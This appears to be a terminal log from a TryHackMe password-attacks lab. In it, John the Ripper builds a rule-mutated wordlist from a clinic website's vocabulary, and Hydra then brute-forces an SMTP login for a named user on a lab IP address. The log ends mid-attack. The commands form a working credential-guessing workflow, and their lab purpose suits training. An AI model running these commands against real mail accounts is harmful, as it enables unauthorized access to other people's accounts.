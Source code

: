 ```
┌──(kali㉿kali)-[~]
└─$ john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
4200p 0:00:00:00 100.00% (2022-09-10 15:24) 17500p/s $ultricies9

──(kali㉿kali)-[~]
└─$ cat dict.lst    
!protected00
!Research00
!Oxytocin00
!Paracetamol00
!Cortisol00
!appointment00
!Cardiology00
!February00
!providing00
!treatment00
!commonly00
!hospital00
!Template00
!tooplate00
!Pregnancy00
!Saturday00
!Copyright00
!Laboratory00
!Departments00
!Insurance00
!healthier00
!Exercise00
!customised00
!Lifestyle00
!Balanced00
!nutrition00
!Benefits00
!clinical00
!innovative00
!technology00
!experience00
!multidisciplinary00

.......

┌──(kali㉿kali)-[~]
└─$ hydra -l pittman@clinic.thmredteam.com -P dict.lst smtp://10.10.163.182:25 -v
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-10 16:01:22
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 21000 login tries (l:1/p:21000), ~1313 tries per task
[DATA] attacking smtp://10.10.163.182:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
```